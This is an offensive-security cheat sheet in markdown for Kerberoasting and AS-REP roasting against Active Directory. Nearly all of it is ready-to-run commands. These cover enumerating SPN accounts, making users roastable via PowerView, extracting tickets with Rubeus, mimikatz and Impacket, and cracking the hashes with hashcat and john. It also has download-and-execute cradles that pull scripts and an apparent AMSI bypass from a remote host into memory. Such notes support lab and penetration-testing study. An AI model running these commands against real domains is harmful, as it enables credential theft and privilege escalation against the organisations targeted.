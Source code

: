 ### Kerberoasting:
    - cracking service account hash
    - Checking for users w/ SPNs:
        - **Check BloodHound** 
        - `GetUserSPNs.py megacorp.local/snovvcrash:'Passw0rd!' -dc-ip 127.0.0.1 -request -outputfile tgsrep.in`
        - Native:   `setspn -T <domain> -Q */*`
    - Making a user Kerberoastable (if you have privs):
         - `Set-DomainObject -Identity <username> -Set @{serviceprincipalname='just/whateverUn1Que'} -verbose`
    - Getting hashes:
        - `(new-object system.net.webclient).downloadstring('http://192.168.45.158/amsi.txt') | IEX`
        - PowerView:
            - `iex (new-object Net.WebClient).DownloadString("http://192.168.45.158/Invoke-Kerberoast.ps1")`
            - `Invoke-Kerberoast -OutputFormat Hashcat | fl`
            - `Invoke-Kerberoast -OutputFormat hashcat | % { $_.Hash } | Out-File -Encoding ASCII hashes.kerberoast`
        - Rubeus:
            - in-memory:  `$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.45.210/Rubeus.exe'); $assem = [System.Reflection.Assembly]::Load($data); [Rubeus.Program]::Main("<args>".Split())`
            - `.\Rubeus.exe kerberoast /format:hashcat /nowrap [/usetgtdeleg] [/user:svc_mssql] [/domain:corp2.com]`
            - `.\Rubeus.exe kerberoast /user:svc_mssql /outfile:hashes.kerberoast`      //Specific user
            - `.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap`      //Get of admins
            - Other options:  `/aes; /tgtdeleg; /creduser:ignite.local\Administrator /credpassword:P@ss123`
        - Native:
            - `Add-Type -AssemblyName System.IdentityModel`
            - `New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "HTTP/dc-mantvydas.offense.local"`
            - `mimikatz # kerberos::list /export`
            - `kirbi2john.py sqldev.kirbi`
            - Transform john to hashcat:  `sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat`
    - Cracking:
        - `hashcat -m 13100 --force -a 0 hashes.kerberoast /usr/share/wordlists/rockyou.txt`
        - `john --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt hashes.kerberoast`

### AS-REP Roasting:
    - Check for users:
        - PowerView:
            - `Get-DomainUser -PreauthNotRequired -verbose`
        - Check and Exploit from Kali:
            - `GetNPUsers.py corp2.com/Administrator:lab -request -format hashcat -outputfile hashes.asreproast`
            - sudo echo "192.168.235.80 corp2.com" >> /etc/hosts`
    - Exploit:
        - `rubeus.exe asreproast /spn:ldap/dc1.ignite.local/ignite.local [/format:hashcat] [/outfile:out.txt]`
        - Or:  `Get-ASREPHash -UserName TargetUser`
    - Enable (no preauth) for users you have privs/GenericAll over:
        - `Set-DomainObject -Identity <username> -XOR @{useraccountcontrol=4194304} -Verbose`
    - Crack:
        - `john --wordlist=passwords_kerb.txt hashes.asreproast`
        - `hashcat -m 18200 --force -a 0 hashes.asreproast passwords_kerb.txt`